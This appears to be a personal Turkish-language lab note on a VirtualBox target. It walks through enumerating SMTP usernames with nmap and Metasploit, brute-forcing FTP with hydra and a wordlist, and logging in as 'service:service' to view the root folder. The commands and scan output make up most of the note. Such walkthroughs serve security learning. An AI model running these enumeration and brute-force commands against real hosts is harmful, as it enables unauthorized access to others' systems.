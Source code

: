 # brute-force FTP
### bizim brute-force attack yapmamız için özellikle username bulmamız önemli.

## Her bulduğumuz bilgiyi ben nasıl exploit ederim diye soruyorduk. FTP brute-force yapacağım ama elimde username yok. 
### Ama nmap sorgusunda gördüm ki port 25 SMTP #port25 #port25-smtp 
### çalışıyor.

# SMTP bize en kolay yolla username's hakkında bilgi verir veya fikir verir.

## nmap 10.0.2.7 -sV -p 25 -sC

https://nmap.org/nsedoc/scripts/smtp-enum-users.html
<span style="background:#ff4d4f">nmap -p 25 --script smtp-enum-users.nse --script-args smtp-enum-users.methods=EXPN 10.0.2.7</span>
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-03 14:41 EDT
Nmap scan report for 10.0.2.7
Host is up (0.00081s latency).
PORT   STATE SERVICE
25/tcp open  smtp
| smtp-enum-users: 
|_  Method RCPT returned a unhandled status code.
MAC Address: 08:00:27:DA:DF:D9 (Oracle VirtualBox virtual NIC)
Nmap done: 1 IP address (1 host up) scanned in 0.25 seconds
### Bunu da denedik nmap script ile olmuyor.

---
## msfconsole smtp_enum
![[Pasted image 20240403214731.png]]

```
hydra -l service -P /usr/share/wordlists/metasploit/unix_users.txt 10.0.2.7 ftp
```


![[Pasted image 20240403222455.png]]
## service    service  olarak girdiğinde
![[Pasted image 20240403222618.png]]
![[Pasted image 20240403222652.png]]
![[Pasted image 20240403223032.png]]
## service account ile root klasörünün içeriğini dahil görebiliyoruz. 
